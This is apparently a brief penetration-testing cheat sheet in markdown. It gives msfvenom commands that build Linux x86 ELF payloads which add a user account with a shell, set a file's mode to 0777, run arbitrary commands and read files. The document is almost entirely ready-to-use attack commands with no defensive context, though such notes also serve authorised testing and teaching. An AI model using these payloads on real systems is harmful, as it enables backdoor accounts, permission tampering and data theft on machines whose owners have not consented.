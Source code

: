 # Exec Payloads

## Add User Linux Exec Payload

```
$ msfvenom -p linux/x86/adduser user=<username> pass=<password> shell=/bin/sh -f elf
```

## Execute Linux Exec Payload

```
$ msfvenom -p linux/x86/chmod file=/path/to/file mode=0777 -f elf -o exec-chmod-file-x86

$ msfvenom -p linux/x86/exec cmd="<commands>" -f elf -o exec-cmd-x86

$ msfvenom -p linux/x86/read_file fd=1 path=/path/to/file -f elf -o read-file-x86
```